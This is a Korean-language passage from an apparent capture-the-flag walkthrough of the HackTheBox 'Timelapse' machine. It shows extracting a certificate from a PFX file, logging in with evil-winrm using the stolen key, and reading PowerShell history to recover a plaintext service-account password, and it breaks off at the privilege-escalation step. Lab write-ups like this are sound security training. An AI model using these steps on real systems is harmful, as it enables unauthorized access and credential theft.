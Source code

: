 ```sh
# pfx file 파일에서 SSL 인증서 추출
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

![](https://velog.velcdn.com/images/h3llanut3lla/post/664683bf-8517-470c-acd7-09222cf5efaa/image.png)

## 초입

현재까지 상황을 정리해보자면, 
- SSL 인증서와 개인 키 획득
- 포트 5986이 SSL을 이용한 WinRM 이라는 것. 

그렇다면 SSL 인증서와 개인 키를 활용해서 Evil-WinRM을 이용하면 초입이 가능할까?

```sh
evil-winrm -i timelapse.htb -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```

![](https://velog.velcdn.com/images/h3llanut3lla/post/5e1e2cc1-b9f9-4eef-a026-29cf220bd9ef/image.png)

가능하다. 

## 권한상승
### svc_deploy

파워쉘 히스토리 로그를 살펴보자. 

```powershell
# Read history
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![](https://velog.velcdn.com/images/h3llanut3lla/post/37799010-c3a2-4eab-b22e-c37fd79dc7d9/image.png)

상단에서 5번째, 6번째줄에서 각각 비밀번호와 사용자명을 볼 수 있다. 

```powershell
# 비밀번호
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force

# 사용자명
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
```

- 사용자명: `svc_deploy`
- 비밀번호: `E3R$Q62^12p7PLlC%KWaxuaV`

그럼 이제 새로 얻은 자격증명으로 새 세션을 열여보자. 

![](https://velog.velcdn.com/images/h3llanut3lla/post/b2cec5c0-567b-40a2-bd7f-04b1ae5f385c/image.png)

### 관리자

현 사용자를 열거해보자. 
